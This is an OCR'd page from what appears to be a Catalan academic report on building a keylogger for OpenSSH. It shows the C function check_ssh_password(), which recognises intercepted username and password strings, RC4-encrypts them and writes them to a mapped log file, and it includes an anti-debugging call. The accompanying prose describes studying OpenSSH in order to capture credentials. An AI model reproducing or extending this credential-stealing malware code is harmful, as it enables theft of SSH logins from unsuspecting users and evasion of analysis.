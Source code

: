 \begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[int] check_ssh_password(@PYaJ[unsigned] @PYaJ[char] @PYbe[*]buff, @PYaJ[int] len){
	@PYaE[// Password string is | uint | chars |]
	@PYay[if] (len @PYbe[>] @PYag[32] @PYbe[|]@PYbe[|] len @PYbe[<] @PYag[5]) @PYay[return] @PYag[0];

	@PYaE[// ptr points to the last char of the string]
	@PYaJ[unsigned] @PYaJ[char] @PYbe[*]ptr @PYbe[=] buff@PYbe[+]len@PYbe[-]@PYag[1];
	@PYay[while] (@PYbe[*]ptr @PYbe[!]@PYbe[=] @PYaT[0x00]) ptr@PYbe[-]@PYbe[-];

	antidebug_obfuscate_analysis(@PYag[11]);
	@PYaE[// Now we must have two bytes 0x00 at left and one < 0x0f at right]
	@PYay[if] ( @PYbe[*](ptr@PYbe[-]@PYag[1]) @PYbe[!]@PYbe[=] @PYaT[0x00] @PYbe[|]@PYbe[|] @PYbe[*](ptr@PYbe[-]@PYag[2]) @PYbe[!]@PYbe[=] @PYaT[0x00]) @PYay[return] @PYag[0];

	@PYaE[// Now bytes from ptr+2 to buff+len-1 has to be exactly *ptr+1]
	@PYay[if] (((buff@PYbe[+]len@PYbe[-]@PYag[1])@PYbe[-](ptr@PYbe[+]@PYag[1])) @PYbe[!]@PYbe[=] @PYbe[*](ptr@PYbe[+]@PYag[1])) @PYay[return] @PYag[0];

	@PYay[if] (useRc4) {
		rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])RC4KEY, @PYay[sizeof](RC4KEY), @PYbe[&]rc4_crypt);
		rc4(ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]), @PYbe[&]rc4_crypt);
	}
	write(@PYag[1], ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]));
	putchar(@PYac['\n']);

	@PYay[return] @PYag[1];
}
\end{Verbatim}
    \caption{keylogger.c::check\_ssh\_password()}
    \label{fig:keylogger_check_password}
\end{figure}
      
En la figura \ref{fig:keylogger_check_password} es mostra el tros de codi que comprova que l'string llegit és un string 
d'usuari o de password i en cas de ser-ho ho xifra i ho escriu al fitxer en qüestió, ja que previament 
s'hi ha mapejat el descriptor de fitxer 1. Aquesta funció és cridada quan s'intercepta un string llegit per
un read() per a comprobar que segueix el format que utilitza l'Openssh. \\

Com és evident, per tal de poder desenvolupar aquest keylogger per l'Openssh, ha calgut un gran estudi del 
comportament d'aquest software per ser capaços de detectar com i quan es transfereixen les dades d'usuari i
password. \\

